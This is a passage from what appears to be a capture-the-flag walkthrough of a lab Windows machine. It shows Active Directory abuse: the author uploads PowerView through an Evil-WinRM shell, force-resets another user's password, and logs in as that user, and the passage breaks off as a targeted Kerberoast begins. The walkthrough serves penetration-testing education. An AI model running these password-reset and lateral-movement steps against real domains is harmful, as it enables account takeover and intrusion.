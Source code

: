 ![image-20220228054231102](https://0xdfimages.gitlab.io/img/image-20220228054231102.png)

It shows just how to do it using
[PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
on the “Abuse Info” tab:

![image-20220228054402736](https://0xdfimages.gitlab.io/img/image-20220228054402736.png)

I’ll download PowerView, upload it to Object, and import it into this session:

    
    
    *Evil-WinRM* PS C:\programdata> upload PowerView.ps1
    Info: Uploading PowerView.ps1 to C:\programdata\PowerView.ps1
    
                                                                 
    Data: 1027036 bytes of 1027036 bytes copied
    
    Info: Upload successful!
    *Evil-WinRM* PS C:\programdata> . .\PowerView.ps1
    

As I already have a shell as oliver, I don’t need to pass that credential.
I’ll just create a password and change it:

    
    
    *Evil-WinRM* PS C:\programdata> $newpass = ConvertTo-SecureString '0xdf0xdf!' -AsPlainText -Force
    *Evil-WinRM* PS C:\programdata> Set-DomainUserPassword -Identity smith -AccountPassword $newpass
    

### Evil-WinRM

smith is a member of Remote Management Users:

![image-20220228054030528](https://0xdfimages.gitlab.io/img/image-20220228054030528.png)

This means the account can connect over WinRM. With the new password, I’ll use
[Evil-WinRM](https://github.com/Hackplayers/evil-winrm) again:

    
    
    oxdf@hacky$ evil-winrm -i 10.10.11.132 -u smith -p '0xdf0xdf!'
    
    Evil-WinRM shell v3.3
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\smith\Documents>
    

## Shell as Maria

### Kerberoast

The help in BloodHound for `GenericWrite` says:

> A targeted kerberoast attack can be performed using PowerView’s Set-
> DomainObject along with Get-DomainSPNTicket.

I’ll add an SPN to maria’s account:
